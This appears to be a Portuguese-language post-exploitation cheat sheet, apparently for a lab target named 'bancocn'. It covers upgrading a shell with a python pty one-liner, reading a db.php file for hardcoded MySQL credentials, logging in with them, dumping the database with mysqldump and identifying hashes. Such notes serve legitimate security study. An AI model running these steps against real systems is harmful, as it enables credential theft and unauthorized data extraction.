 > A shell que conseguimos ter acesso não é tty, sendo assim, a shell que temos acesso tem muitas limitações. Para resolver o problema:
```sh
# No terminal digitar
python -c "import pty; pty.spawn('/bin/bash')"
```

### Iniciar "Post exploitation"

> Saber com qual é o meu user 
```sh
whoami
```

> Para saber as permissões
```sh
ls -la
```

> Para saber o conteudo de um arquivo
```sh
cat nome_do_arquivo
```

> Podemos procurar o código que liga o site ao banco de dados
```sh
# neste caso entramos dentra da pasta classes e visualizamos o db.php
cat db.php
```
> descobrimos o seguinte:
```php
<?php
    $lnk = mysql_connect("localhost", "bancocn", "bancocn123");
    $db = mysql_select_db('bancocn, $lnk');
?>
```

> entrar no banco de dados mysql
```sh
mysql -u bancocn -p 
# senha = bancocn123
```

> podemos ver os bancos de dados deponiveis
```mysql
    show databases;
```
> Dump da Base de Dados
```sh
# Fora da consola mysql 
# e se o mysqldump estiver instalado
mysqldump -u bancocn -p bancocn --single-transaction > dump.sql
``` 

## Cripto
> para saber qual é tipo da hash pode-se usar:
```sh
    hash-identifier
```





